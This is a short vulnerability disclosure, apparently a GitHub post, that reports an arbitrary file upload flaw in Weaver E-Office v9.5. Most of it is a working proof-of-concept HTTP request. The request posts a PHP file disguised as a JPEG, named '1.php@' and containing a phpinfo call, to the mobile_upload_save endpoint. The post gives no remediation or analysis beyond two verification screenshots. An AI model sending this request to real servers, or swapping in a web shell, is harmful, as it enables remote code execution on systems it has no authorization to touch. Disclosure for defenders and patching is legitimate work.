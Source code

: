 Weaver E-Office v9.5 has arbitrary file upload vulnerability

official website:https://www.e-office.cn/

POC
```
POST /E-mobile/App/Ajax/ajax.php?action=mobile_upload_save  HTTP/1.1
Host: xx:8088
Content-Length: 338
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="upload_quwan"; filename="1.php@"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarydRVCGWq4Cx3Sq6tt--
```
verification

![WPS图片(1)](https://user-images.githubusercontent.com/131632691/234152011-123b5f73-6efc-47f1-b753-3e06a4ae6c11.png)

![WPS图片(2)](https://user-images.githubusercontent.com/131632691/234152039-b6b3a7b2-7c09-4e1f-ba30-5285e2b1783a.png)

